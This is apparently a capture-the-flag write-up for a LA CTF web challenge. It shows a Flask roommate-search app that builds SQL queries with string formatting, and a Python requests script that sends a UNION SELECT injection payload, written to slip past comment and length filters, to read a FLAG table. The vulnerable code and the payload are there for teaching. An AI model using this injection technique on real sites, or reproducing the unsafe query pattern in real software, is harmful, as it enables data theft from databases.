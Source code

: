 # la housing portal

> Portal Tips Double Dashes ("--") Please do not use double dashes in any text boxes you complete or emails you send through the portal. The portal will generate an error when it encounters an attempt to insert double dashes into the database that stores information from the portal.
> 
> Also, apologies for the very basic styling. Our unpaid LA Housing(tm) RA who we voluntold to do the website that we gave FREE HOUSING for decided to quit - we've charged them a fee for leaving, but we are stuck with this website. Sorry about that.
> 
> Please note, we do not condone any actual attacking of websites without permission, even if they explicitly state on their website that their systems are vulnerable.
>
> https://la-housing.chall.lac.tf/

Solution:

The source code of the challenge was given.

Looking at the `app.py`...

```python
import sqlite3
from flask import Flask, render_template, request

app = Flask(__name__)

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/submit", methods=["POST"])
def search_roommates():
    data = request.form.copy()

    if len(data) > 6:
        return "Invalid form data", 422
    
    
    for k, v in list(data.items()):
        if v == 'na':
            data.pop(k)
        if (len(k) > 10 or len(v) > 50) and k != "name":
            return "Invalid form data", 422
        if "--" in k or "--" in v or "/*" in k or "/*" in v:
            return render_template("hacker.html")
        
    name = data.pop("name")

    
    roommates = get_matching_roommates(data)
    return render_template("results.html", users = roommates, name=name)
    

def get_matching_roommates(prefs: dict[str, str]):
    if len(prefs) == 0:
        return []
    query = """
    select * from users where {} LIMIT 25;
    """.format(
        " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
    )
    print(query)
    conn = sqlite3.connect('file:data.sqlite?mode=ro', uri=True)
    cursor = conn.cursor()
    cursor.execute(query)
    r = cursor.fetchall()
    cursor.close()
    return r
```

It's vulnerable to SQL injection. However, we:
- can't use comments
- can't exceed 10 characters for key
- can't exceed 50 characters for the value

`data.sql` was given as well

![image](1.png)

So the table `users` has 6 columns

![image](2.png)

and we need to retrieve the `flag` from the `FLAG` table

instead of using comments, let's just make it part of our `where` clause

```python
import requests

url = 'https://la-housing.chall.lac.tf/submit'

formData = {
    'name': 'a',
    'guests': '\' UNION SELECT 1,*,3,4,5,6 from FLAG WHERE \'1\'=\'1',
}

response = requests.post(url, data=formData)

if response.status_code == 200:
    print('Success!')
    print(response.text)
else:
    print(f'Request failed: {response.status_code}')
    print(response.text)
```

![image](3.png)

Flag: `lactf{us3_s4n1t1z3d_1npu7!!!}`
